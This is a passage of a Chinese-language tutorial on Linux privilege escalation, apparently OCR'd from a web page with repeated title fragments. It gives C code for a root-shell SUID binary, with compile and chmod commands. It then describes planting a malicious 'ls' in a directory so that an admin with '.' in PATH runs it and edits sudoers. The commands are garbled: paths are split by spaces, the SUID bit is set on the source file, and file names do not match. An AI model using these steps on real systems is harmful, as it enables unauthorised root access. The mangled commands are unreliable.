 echo ‘int main() { setgid(0); setuid(0); system(“/bin/bash”); return 0; }’ > /tmp/test/suid-shell.c

编译：

gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel

赋权：

chmod + s /tmp/test/suid-shell.c

好的，我们回到要提权的服务器上

干货｜一文吃透Linux提权
 

cd / tmp./suid-shell

可以看到是ROOT权限了

0x0010 linux提权-利用“.”路径配置错误
有“.” 在PATH中表示用户可以从当前目录执行二进制文件/脚本。但是一些管理员为了避免每次都必须输入这两个额外的字符，他们在用户中添加“。”在他们的PATH中。对于攻击者而言，这是提升其特权的绝佳方法。

放置.路径

如果在PATH中放置点，则无需编写./binary即可执行它。那么我们将能够执行当前目录中的任何脚本或二进制文件。

假设小明是管理员，而她添加了“。” 在她的PATH上，这样她就不必再输入两个字符了去执行脚本或二进制文件。

带“。” 在路径中–program

不带“。” 在路径中-./program

发生这种情况是因为Linux首先在“.”位置搜索程序。但是添加到PATH的开头后，就在其他任何地方搜索。

另一个用户“小白”知道小明添加了“.” 在PATH中，

小白告诉小明’ls’命令在他的目录中不起作用

小白在他的目录中添加代码，这将更改sudoers文件并使他成为管理员

小白将该代码存储在名为“ ls”并使其可执行

小明具有root特权。她来了，并在小白的主目录中执行了’ls’命令

恶意代码不是通过原始的’ls’命令而是通过root访问来执行

在另存为“ ls”的文件中，添加了一个代码，该代码将打印“ Hello world”

$ PATH = .：$ {PATH} –添加’.’ 在PATH变量中

干货｜一文吃透Linux提权
 


干货｜一文吃透Linux提权
 

$ ls –执行的./ls文件，而不是运行列表命令。

现在，如果root用户以root特权执行代码，我们可以使用root特权实现任意代码执行。


